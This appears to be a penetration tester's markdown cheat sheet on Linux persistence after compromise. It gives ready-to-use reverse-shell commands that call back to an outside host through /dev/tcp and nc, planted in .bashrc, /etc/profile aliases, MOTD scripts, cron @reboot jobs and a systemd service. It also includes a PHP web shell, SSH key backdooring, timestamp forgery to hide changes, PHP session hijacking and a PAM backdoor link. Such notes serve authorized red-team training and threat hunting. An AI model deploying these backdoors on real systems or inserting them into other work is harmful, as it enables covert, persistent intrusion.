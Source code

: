 # Linux Persistence

For general overview of persistence that OS neutral: [[Persistence]].
![](linux-persistence-map.png)
[Credit: pberda.github/io](https://pberba.github.io/security/2021/11/22/linux-threat-hunting-for-persistence-sysmon-auditd-webshell/)
#### Nohup

Use `nohup` - no hang up in a script to make call back.  
```bash
#!/bin/bash
while true; do
    nohup bash -i >& /dev/tcp/$ip/443 0>&1;
    sleep 10;
done
```


#### Ippsec Timestamp checking

Find all timestamps as [[Linux-Blueteam]], with `touch` `cp` the persistence mechanicism with `touch`
```bash
ls -lt --time-style=full-iso# Displys all timestamps
find / -type f -printf "%T+ %p\n" | grep -v 00000000
touch original_lib_file -r persistence_file
```

#### .rc Aliasing

```bash
# If have sudo or permission to propagate to all usersasdasd
echo "alias PEST='($revershell_goes_here)'" | sudo tee -a /etc/profile
# consider .zshrc or dash.rc
echo "alias PEST='($revershell_goes_here)'" | sudo tee -a /home/$USER/.bashrc 
```

#### MOTD you got pwned

```bash
# When anyone logs in 
echo "$reversehell_goes_here" | sudo tee -a /etc/update-motd.d/00-header
```

#### SSH Keys
It's not very hidden, easy to remove or detect. - https://attack.mitre.org/techniques/T1098/
```bash
# Generate on host; provide some fields
ssh-keygen  
# target machine:
# cat public key on host and echo it into .ssh/authorized_keys
mkdir .ssh
echo "ssh-rsa $base64fromkey" > .ssh/authorized_keys
chmod 600 id_rsa
```

#### php
1. in web root `/var/www/html`
2. `touch shell.php` and add the below:
2. Or add within a file of this directory
1. Change the 'cmd' parameter to something that LESS like to be called 
```php
<?php
    if (isset($_REQUEST['cmd'])) {
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
    }
?>
```

#### stealing php session
```bash
/var/lib/php/sessions # defauilt locations
sess_<SESSION_ID> # set your PHPSESSID cookie to hijack
```
Session files and cookie name are configurable in php.ini:
```php
session.save_path
session.name
```

#### Cron
```bash
# newlines required
CT="\n1 * * * *   root    ./dev/shm/met.elf\n"
printf "$CT" | crontab -

```

As a one-liner
```bash
echo "* * * * * root bash -c 'bash -i >& /dev/tcp/$ip/$port 0>&1'"
```

Serve shell script, for example:
```bash
#!/bin/bash
bash -i >& /dev/tcp/ip/port 0>&1
```
.bashrc
```bash
echo 'bash -i >& /dev/tcp/$ip/$port 0>&1' >> ~/.bashrc
```
OR pam_unix.so [pam-backdoor](https://github.com/zephrax/linux-pam-backdoor)

```bash
# Variable just for easy reading.
REVSHELL="rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1337 >/tmp/f"
(crontab -l ; echo "@reboot sleep 200 && $REVSHELL")|crontab 2> /dev/null
```

#### Systemd

[From this article Systemd persistence](https://medium.com/@alexeypetrenko/systemd-user-level-persistence-25eb562d2ea8)
```bash
touch ~/.config/system/root/persistence.service
# Make p.service 
[Unit]  
Description=Just a reverse shell

[Service]  
ExecStart=/usr/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/8008 0>&1'  
Restart=always  
RestartSec=60

[Install]  
WantedBy=default.target
```

Enable and start service
```bash
systemctl --user enable persistence.service
systemctl --user start persistence.service 
# systemd --user only started on login
# Configure with root run:
loginctl enable-linger
# Check if already set:
/var/lib/systemd/linger/$username_is_here_if_enabled
```


## References

[Ippsec Rocks, youtube video](https://www.youtube.com//watch?v=yaV09XCDDqI&t=390s)
[9-ways-to-backdoor-a-linux-box](https://airman604.medium.com/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c) -  Backdoors
[creating-backdoor-in-pam](http://0x90909090.blogspot.com/2016/06/creating-backdoor-in-pam-in-5-line-of.html) - pam unix backdoors
[linuxbackdoors](https://tryhackme.com/room/linuxbackdoors) - Backdoors
[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Linux - Persistence.md)
[Mitre Persistence](https://attack.mitre.org/techniques/T1098)
[Alexey Petrenko's Systemd persistence](https://medium.com/@alexeypetrenko/systemd-user-level-persistence-25eb562d2ea8)
[pberda.github/io Article and Persistence Map](https://pberba.github.io/security/2021/11/22/linux-threat-hunting-for-persistence-sysmon-auditd-webshell/)